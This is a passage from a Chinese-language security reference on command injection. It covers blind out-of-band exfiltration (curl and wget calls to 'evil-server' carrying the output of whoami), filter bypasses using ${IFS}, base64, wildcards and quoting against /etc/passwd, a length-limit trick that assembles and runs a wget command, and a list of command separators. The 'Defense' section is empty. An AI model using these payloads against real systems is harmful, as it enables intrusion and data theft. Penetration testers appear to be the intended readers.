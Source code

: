 ### 4.5.4. 无回显技巧

* bash反弹shell
* DNS带外数据
*
  *   http带外

      `curl http://evil-server/$(whoami)``wget http://evil-server/$(whoami)`
* 无带外时利用 `sleep` 或其他逻辑构造布尔条件

### 4.5.5. 常见绕过方式

#### 4.5.5.1. 空格绕过

* `<` 符号 `cat<123`
* &#x20;/ `%09`
* `${IFS}` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

#### 4.5.5.2. 黑名单绕过

* `a=l;b=s;$a$b`
* base64 `echo "bHM=" | base64 -d`
* `/?in/?s` => `/bin/ls`
* 连接符 `cat /etc/pass'w'd`
* 未定义的初始化变量 `cat$x /etc/passwd`

#### 4.5.5.3. 长度限制绕过

```
>wget\
>foo.\
>com
ls -t>a
sh a
```

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行 直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令 这里可以使用一些诸如w,\[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 而在php中 , 使用 shell\_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

### 4.5.6. 常用符号

#### 4.5.6.1. 命令分隔符

* `%0a` / `%0d` /  /&#x20;
* `;`
* `&` / `&&`

#### 4.5.6.2. 通配符

* `*` 0到无穷个任意字符
* `?` 一个任意字符 "\[ ]" 一个在括号内的字符，e.g. `[abcd]` "\[ - ]" 在编码顺序内的所有字符 "\[^ ]" 一个不在括号内的字符

### 4.5.7. 防御
